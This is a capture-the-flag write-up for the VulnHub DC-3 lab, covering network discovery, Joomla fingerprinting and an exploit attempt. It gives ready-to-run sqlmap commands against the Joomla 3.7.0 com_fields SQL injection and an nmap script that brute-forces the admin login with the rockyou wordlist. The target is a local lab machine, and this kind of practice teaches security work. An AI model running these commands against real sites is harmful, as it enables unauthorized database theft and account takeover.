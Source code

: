 # DC-3

## 1.Enumeration

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.100	08:00:27:5f:5e:41	PCS Systemtechnik GmbH
192.168.56.115	08:00:27:31:0f:a8	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.115`, let's scan it.

```bash
root@kali: nmap -sC -sV -p80 -v -oN nmap.out 192.168.56.115

Nmap scan report for 192.168.56.115
Host is up (0.00044s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-title: Home
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
MAC Address: 08:00:27:31:0F:A8 (Oracle VirtualBox virtual NIC)

```

The only open port is port 80, so we have to work on the web application:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8d992b5c-3a5d-4d38-898d-917b0ca7228d)

visiting the site, Wappalyzer shows this is a `Joomla` cms, also cheking the target with Nikto shows afew interesting directories :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d70cfbff-32d9-4a05-b39c-3f9932602930)

so i visited the `/administrator` page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b467734b-1e5e-4c24-8038-4392ad61cca1)

this is actually a joomla CMS, let's find the version of it to see any exploit available

there is a tool called `joomscan` that does afew enumeration :

```bash
root@kali: joomscan --url http://192.168.56.115
```
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/9a056c02-4bd8-43a7-9f4f-4e1fa4ec87e3)

you can also check for the version by visiting the below urls, but it gives an approximate version :

```bash
curl http://192.168.56.115/administrator/manifests/files/joomla.xml | grep version
 curl http://192.168.56.115/language/en-GB/en-GB.xml | grep version
```

then in searchsploit i found afew exploits :

```text
Joomla! 3.7 - SQL Injection | php/remote/44227.php
Joomla! 3.7.0 - 'com_fields' SQL Injection | php/webapps/42033.txt
```

the first one `44227` did not work, but the second one guides through a valid SQLi bug, i used the command mentioned in the document :

```bash
root@kali: #sqlmap -u "http://192.168.56.115/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

sqlmap found the database in use, `joomladb`, then i tried to dump the data out of it, but did not work since it showed an error after running the below command :

```bash
root@kali: sqlmap -u "http://192.168.56.115/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --T '#__users' --dump -p list[fullordering] --batch 
```
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8b690314-3d8d-4f09-bfc2-6d0a66c713df)

there must be something with the naming of the table which starts by `#`, so i went to another path and tried to brute force the admin panel

i used metasploit `auxiliary/scanner/http/joomla_bruteforce_login` but my system crushed every time i used this module, so i used nmap instead

put admin in user.txt

```bash
root@kali: nmap -v -sV --script http-joomla-brute --script-args 'userdb=/root/ctf/dc-3/user.txt,passdb=/usr/share/wordlists/rockyou.txt,http-joomla-brute.threads=3,brute.firstonly=true' 192.168.56.115
```

























